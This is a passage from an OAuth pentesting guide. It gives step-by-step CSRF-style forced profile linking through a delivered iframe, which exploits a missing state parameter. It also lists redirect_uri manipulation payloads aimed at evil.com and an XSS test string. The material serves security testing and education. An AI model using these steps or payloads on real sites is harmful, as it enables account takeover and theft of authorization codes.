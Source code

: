     * For this copy URL of the request in burp and drop the request so that the code isn't used.
    * Turn off intercept and log out of website.
    * Now you can send this link to the victim or you can set it as an iframe on your website `<iframe src="request URL"></iframe>`. and deliver your website link to the victim.
    * When their browser loads the `iframe`, it will complete the OAuth flow using your social media profile, attaching it to the victim account.

    ```jsx
    1. Notice that you have the option to attach your social media profile to your existing account.
    3. notice that when you try to attach your social media account the target redirect you to social media website then go back to the target again
    4. log out from the account and try to login with your social media linked account notice that it redirects you directly to target without any credentials needed
    5. In the "GET /auth?client_id[...]" request, observe that the "redirect_uri" for this functionality sends the authorization code to the endpoint like "/oauth-linking" without "state" parameter
    6. Turn on proxy interception and select the "Attach a social profile"  copy URL from the "GET /oauth-linking?code=[...]" request
    8. Drop the request. This is important to ensure that the code is not used and, therefore, **remains valid**.
    10. in your exploit server : <iframe src="<https://YOUR-TARGET.net/oauth-linking?code=STOLEN-CODE>"></iframe>
    11. Deliver the exploit to the victim. When their browser loads the iframe, it will complete the OAuth flow using your social media profile, attaching it to victim account on the blog website.
    12. Go back to the blog website and select the "Log in with social media" option again. Observe that you are instantly logged in as the victim user
    ```

#### **Insufficient Redirect URI Validation**

The `redirect_uri` is very important because **sensitive data, such as the** `**code**` **is appended to this URL** after authorization. If the `redirect_uri` can be redirected to an **attacker controlled server**, this means the attacker can potentially **takeover a victim’s account** by using the `code` themselves, and gaining access to the victim’s data.

The way this is going to be exploited is going to vary by authorization server. **Some** will **only accept** the exact same `**redirect_uri**` **path as specified in the client application**, but some will **accept anything** in the same domain or subdirectory of the `redirect_uri` .

* Open redirects: [`https://yourtweetreader.com`](https://yourtweetreader.com)`/callback?redirectUrl=https://evil.com`
* Path traversal: `https://yourtweetreader.com/callback/../redirect?url=https://evil.com`
* Weak `redirect_uri` regexes: `https://yourtweetreader.com.evil.com`
* HTML Injection and stealing tokens via referer header: `https://yourtweetreader.com/callback/home/attackerimg.jpg`
* XSS in redirect implementation As mentioned in this bug bounty report [https://blog.dixitaditya.com/2021/11/19/account-takeover-chain.html](https://blog.dixitaditya.com/2021/11/19/account-takeover-chain.html) it might be possible that the redirect **URL is being reflected in the response** of the server after the user authenticates, being **vulnerable to XSS**. Possible payload to test: `https://app.victim.com/login?redirectUrl=https://app.victim.com/dashboard</script><h1>test</h1>`

**Other parameters** that can be vulnerable to Open Redirects are: - **client\_uri** - URL of the home page of the client application - **policy\_uri** - URL that the Relying Party client application provides so that the end user can read about how their profile data will be used. - **tos\_uri** - URL that the Relying Party client provides so that the end user can read about the Relying Party's terms of service. - **initiate\_login\_uri** - URI using the https scheme that a third party can use to initiate a login by the RP. Also should be used for client-side redirection
